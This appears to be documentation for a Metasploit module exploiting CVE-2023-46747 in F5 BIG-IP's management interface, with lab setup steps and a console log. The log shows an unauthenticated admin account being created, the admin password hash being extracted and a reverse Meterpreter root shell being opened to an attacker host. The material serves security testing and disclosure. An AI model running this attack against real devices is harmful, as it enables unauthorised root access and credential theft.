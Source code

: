 ## Vulnerable Application

### Description

This module exploits a flaw in F5's BIG-IP Traffic Management User Interface (TMUI) that enables an external,
unauthenticated attacker to create an administrative user. Once the user is created, the module uses the new account to
execute a command payload. Both the exploit and check methods automatically delete any temporary accounts that are
created.

Tested against the VMware OVA release of 16.1.2.1-0.0.10 and 17.0.0.1-0.0.4.

### Setup

Download BIGIP-17.0.0.1-0.0.4.ALL-vmware.ova and import it into your desired virtualization software.

The target does not need to be licensed to be vulnerable.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/f5_bigip_tmui_rce_cve_2023_46747`
4. Set the `RHOST`, `PAYLOAD` and payload-related options
5. Do: `run`
6. You should get a shell.

## Targets

### Command

This executes an OS command on the target device.

## Options

## Scenarios

### F5 BIG-IP 17.0.0.1-0.0.4

```
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set RHOSTS 192.168.159.32
RHOSTS => 192.168.159.32
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > check
[+] 192.168.159.32:443 - The target is vulnerable.
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[+] Admin user was created successfully. Credentials: UyPzjB - qu0k7MxIzIDlvS
[+] Retrieved the admin hash: $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5tLI9KSSr8M10
[*] Obtained login token: 4TAZKYHLZCHPQX3FC47VWNSEUA
[*] Sending stage (24768 bytes) to 192.168.159.32
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.32:35438) at 2023-11-01 16:36:04 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : f5test2.home.lan
OS           : Linux 3.10.0-862.14.4.el7.ve.x86_64 #1 SMP Thu Jul 14 23:41:24 PDT 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/var/service/restjavad
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > creds
Credentials
===========

host            origin          service                   public  private                                                                                              realm  private_type        JtR Format    cracked_password
----            ------          -------                   ------  -------                                                                                              -----  ------------        ----------    ----------------
192.168.159.32  192.168.159.32  443/tcp (F5 BIG-IP TMUI)  admin   $6$gquMefr5$HGA8j7xLzHq2cfZOSudg6g6vETPpHthWOSWJtCtYd1sWRoNGCLnAQKbRvQoRm1QgEm8fC3HfH5t (TRUNCATED)         Nonreplayable hash  sha512,crypt  

msf6 exploit(linux/http/f5_bigip_tmui_rce_cve_2023_46747) > 
```
